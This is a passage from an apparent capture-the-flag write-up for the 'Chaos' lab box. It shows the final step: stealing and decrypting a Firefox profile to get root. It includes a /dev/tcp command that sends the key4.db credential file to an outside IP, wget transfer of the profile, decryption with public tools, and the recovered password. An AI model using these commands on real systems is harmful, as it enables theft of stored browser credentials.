 > **Attacker Machine**:

```bash
cat < key4.db > /dev/tcp/10.10.14.15/443

git clone https://github.com/lclevy/firepwd
pip install -r requirements.txt

python firepwd.py -h
python3 firepwd.py -h
python2.7 firepwd.py -h
```

<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_71.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_72.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I use another tool that I also found on the Web, **[Firefox Decrypt](https://github.com/unode/firefox_decrypt){:target="_blank"}**, I test it and it works correctly with `python`. I will transfer recursively with `wget` all the resources that the script needs, once I have everything I need I can run it and get the credentials of the `root` user. I perform a privilege escalation and manage to rooted the box.

> **Attacker Machine**:

```bash
git clone https://github.com/Unode/firefox_decrypt
python firefox_decrypt.py
```

> **Victime Machine**:

```bash
python3 -m http.server
```

> **Attacker Machine**:

```bash
wget -r 10.10.10.120:8000

python firefox_decrypt.py ./bzo7sjt1.default
# jiujitsu
```

<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_73.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_74.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_75.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_76.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
